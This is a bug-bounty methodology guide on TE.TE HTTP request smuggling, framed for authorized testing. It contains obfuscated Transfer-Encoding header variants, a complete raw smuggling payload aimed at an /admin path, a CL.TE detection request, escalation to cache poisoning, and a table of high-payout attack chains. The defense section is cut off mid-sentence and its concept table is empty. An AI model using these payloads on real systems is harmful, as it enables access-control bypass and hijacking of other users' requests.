

# HTTP Request Smuggling (TE.TE)

## When to Use
- When auditing modern web architectures that utilize a reverse proxy, load balancer, or CDN (Frontend) sitting in front of the actual application server (Backend).
- When standard CL.TE or TE.CL request smuggling vectors fail because both servers support the `Transfer-Encoding: chunked` header.
- To achieve critical impact such as bypassing front-end IP restrictions, web application firewalls (WAF), or executing devastating web cache poisoning attacks.


## Prerequisites
- Authorized scope and target URLs from bug bounty program
- Burp Suite Professional (or Community) configured with browser proxy
- Familiarity with OWASP Top 10 and common web vulnerability classes
- SecLists wordlists for fuzzing and enumeration

## Workflow

### Phase 1: Understanding TE.TE Smuggling (The Concept)

```text
# Concept: Normally, HTTP requests are separated securely.
# In Request Smuggling, we send *one* mathematically ambiguous HTTP request that the Frontend 
# proxy interprets as a single request, but the Backend interprets as *two* requests.

# TE.TE (Transfer-Encoding / Transfer-Encoding) occurs when BOTH the Frontend and Backend 
# servers support the `Transfer-Encoding` header.

# The Attack: We send a request with TWO `Transfer-Encoding` headers, but we intentionally 
# obfuscate one of them. The goal is to make the Frontend process the request using `chunked` 
# encoding, but trick the Backend into ignoring it (falling back to `Content-Length`) or vice versa.
```

### Phase 2: Obfuscating the Transfer-Encoding Header

```http
# We must find an obfuscation technique that one server accepts but the other rejects.

# Method 1: Spacing
Transfer-Encoding: chunked
Transfer-Encoding : x

# Method 2: Invalid encoding name
Transfer-Encoding: xchunked

# Method 3: Line folding (historical, but sometimes effective)
Transfer-Encoding:
 chunked

# If the Frontend processes the first header (chunked) and the Backend processes the second (invalid/ignored),
# we effectively convert the attack into a standard TE.CL attack, achieving desynchronization.
```

### Phase 3: Crafting the TE.TE Payload

```http
# Objective: The Frontend sees 1 request. The Backend sees 2 requests.
# Below is the raw HTTP request. (Note: \r\n line endings are CRITICAL and must perfectly align).

POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0

# The Breakdown:
# 1. Frontend: Processes `Transfer-Encoding: chunked`. Reads the chunk sizes (5c and 0) and forwards the entire block as one request.
# 2. Backend: Ignores `Transfer-encoding: cow` (or prioritizes `Content-Length: 4`). 
#    It reads only the first 4 bytes of the body ("5c\r\n"). 
# 3. The Smuggle: The backend leaves the remaining data (`GPOST /admin...`) sitting in its TCP buffer.
# 4. The Impact: The NEXT legitimate user who sends a request will inadvertently have their request appended to our smuggled `GPOST /admin` request!
```

### Phase 4: Validating and Exploiting

```bash
# 1. Use Burp Suite's "HTTP Request Smuggler" extension to accurately test permutations automatically.
# 2. To manually verify, send the payload repeatedly using Burp Repeater (updating Content-Length).
# 3. Watch for anomalous responses to normal requests (e.g., getting a 403 Forbidden for a normal request because it got appended to the smuggled `/admin` path).
```

#### Decision Point 🔀
```mermaid
flowchart TD
    A[Identify Frontend Proxy / Load Balancer] --> B[Send basic TE.TE obfuscated payloads via Burp Suite]
    B --> C{Does a timeout occur or do subsequent normal requests get anomalous responses?}
    C -->|Yes| D[TE.TE Desynchronization Confirmed! The backend is interpreting the smuggled prefix.]
    C -->|No| E[Try different obfuscation techniques (tabs, vertical tabs, capitalization, newlines)]
    D --> F[Escalate to Web Cache Poisoning by smuggling a request with a malicious Host header]
    E --> C
```


### 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)

> **Core Principle**: A single finding is a $500 report. A chained exploit is a $50,000 report.
> The top 1% of hunters spend 40+ hours on a single target, understanding it better than
> the developers who built it. They automate discovery, not exploitation.

**Chaining Decision Tree:**


**Common High-Payout Chains:**
| Chain Pattern | Typical Bounty | Example |
|--|--|--|
| SSRF → Cloud Metadata → IAM Keys | $15,000-$50,000 | Webhook URL → AWS creds → S3 data |
| Open Redirect → OAuth Token Theft | $5,000-$15,000 | Login redirect → steal auth code |
| IDOR + GraphQL Introspection | $3,000-$10,000 | Enumerate users → access any account |
| Race Condition → Financial Impact | $10,000-$30,000 | Duplicate gift cards → unlimited funds |
| XSS → ATO via Cookie Theft | $2,000-$8,000 | Stored XSS on admin page → session hijack |
| Info Disclosure → API Key Reuse | $5,000-$20,000 | JS file → hardcoded API key → admin access |

**The "Architect" vs "Scanner" Mindset:**
- ❌ **Scanner Mindset**: Run nuclei on 10,000 subdomains, submit the first hit → duplicates
- ✅ **Architect Mindset**: Spend 2 weeks mapping ONE application's business logic, RBAC model, 
  and integration seams → find what no scanner ever will

## 🔵 Blue Team Detection & Defense
- **HTTP/2**: Upgrade the frontend-to-backend infrastructure to securely utilize HTTP/2 end-to-end **Header Normalization**: Ensure your frontend Load Balancer (e.g., HAProxy, Nginx) is **Disable Backend Connection Persistence**: Configure Key Concepts
| Concept | Description |
|---------|-------------|
| Desynchronization | |
| TE.TE | |
| Frontend/Backend Architecture | |


## Output Format
```
Http Request Smuggling Te Te — Assessment Report
============================================================
Target: [Target identifier]
Assessor: [Operator name]
Date: [Assessment date]
Scope: [Authorized scope]
MITRE ATT&CK: [Relevant technique IDs]

Findings Summary:
  [Finding 1]: [Severity] — [Brief description]
  [Finding 2]: [Severity] — [Brief description]

Detailed Results:
  Phase 1: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

  Phase 2: [Phase name]
    - Result: [Outcome]
    - Evidence: [Screenshot/log reference]
    - Impact: [Business impact assessment]

Risk Rating: [Critical/High/Medium/Low/Informational]
Recommendations:
  1. [Immediate remediation step]
  2. [Long-term hardening measure]
  3. [Monitoring/detection improvement]
```


### 📝 Elite Report Writing (Top 1% Standard)

> **"The difference between a $500 and $50,000 report is the quality of the writeup."**
> — Vickie Li, Bug Bounty Bootcamp

**Title Format**: `[VulnType] in [Component] Allows [BusinessImpact]`
- ❌ "XSS Found" → This tells the triager nothing
- ✅ "Stored XSS in /admin/comments Allows Session Hijacking of All Moderators"

**Report Structure (HackerOne-Optimized):**
1. **Summary** (2-4 sentences — triager reads only this first): What broke, how, worst-case.
2. **CVSS 4.0 Vector** — Must be defensible; wrong CVSS destroys credibility.
3. **Attack Scenario** — 3-5 sentence narrative from attacker's perspective.
4. **Impact** — MUST include at least one real number: "Affects 4.2M users" not "affects many users".
5. **Steps to Reproduce** — Deterministic. A junior dev who has never seen this bug reproduces it exactly.
6. **PoC** — Copy-paste runnable. No placeholders. Match the exact HTTP method.
7. **Remediation** — Don't say "sanitize input." Give the exact code fix, before/after.
8. **CWE + References** — SSRF→CWE-918, IDOR→CWE-639, SQLi→CWE-89, XSS→CWE-79.

**Pre-Report Verification (5 Checks):**
1. 🔍 **Hallucination Detector** — Verify endpoints, CVEs, and code paths are real
2. 🤖 **AI Writing Pattern Check** — Remove "Certainly!", "It's worth noting", generic phrasing
3. 🧪 **PoC Reproducibility** — Payload syntax valid for context? Prerequisites stated?
4. 📋 **Duplicate Detection** — Is this a scanner-generic finding? Known public disclosure?
5. 📈 **Impact Plausibility** — Severity matches technical capability? No inflation?


## 💰 Real-World Disclosed Bounties (HTTP Request Smuggling)

| Company | Bounty | Researcher | Technique | Year |
|---------|--------|-----------|-----------|------|
| **Multiple HackerOne** | $5K-$25K | (Various) | CL.TE / TE.CL desync → cache poisoning → mass ATO | 2023-2025 |

**Key Lesson**: Request smuggling is rare and high-value because it affects ALL users via cache
poisoning. James Kettle (PortSwigger) pioneered the modern techniques. The key is testing 
both CL.TE and TE.CL configurations plus TE.TE obfuscation variants.

**Detection technique that finds real bugs:**
```
POST / HTTP/1.1
Host: target.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
If the next request gets a `405 Method Not Allowed` for "GPOST", the frontend and backend
disagree on request boundaries → CL.TE smuggling confirmed.

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## References
- PortSwigger: [HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling/obfuscating-te-header)
- DEF CON 27 (Albinowax): [HTTP Desync Attacks: Request Smuggling Reborn](https://www.youtube.com/watch?v=wVzVNA230aM)
